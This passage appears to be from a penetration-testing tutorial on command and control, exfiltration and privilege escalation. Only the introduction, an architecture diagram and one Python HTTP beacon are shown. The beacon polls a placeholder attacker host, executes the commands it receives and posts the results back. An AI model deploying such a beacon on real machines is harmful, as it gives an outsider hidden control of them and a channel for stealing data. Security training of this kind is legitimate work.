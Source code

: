 # Command and Control, Exfiltration, and Privilege Escalation

## Introduction

This module covers three critical aspects of advanced penetration testing: establishing reliable command and control (C2) infrastructure, exfiltrating data without detection, and escalating privileges to gain complete system control.

## Command and Control (C2)

### What is C2?

Command and Control infrastructure enables attackers to maintain communication with compromised systems, send commands, and receive data. A robust C2 system is essential for successful post-exploitation.

### C2 Architecture

```
[Attacker] → [Redirectors] → [C2 Server] ← [Compromised Systems]
                                ↓
                          [Data Storage]
```

### C2 Communication Channels

#### 1. HTTP/HTTPS

Most common and blends with normal traffic.

```python
# Simple HTTP beacon
import requests
import time

C2_SERVER = "https://c2.attacker.com"

while True:
    try:
        # Beacon to C2
        response = requests.get(f"{C2_SERVER}/beacon", 
                               headers={"User-Agent": "Mozilla/5.0..."})
        
        # Execute commands
        if response.status_code == 200:
            command = response.text
            result = execute_command(command)
            
            # Send results
            requests.post(f"{C2_SERVER}/results", data=result)
    except:
        pass
    
    # Sleep between beacons
    time.sleep(random.randint(300, 600))
```
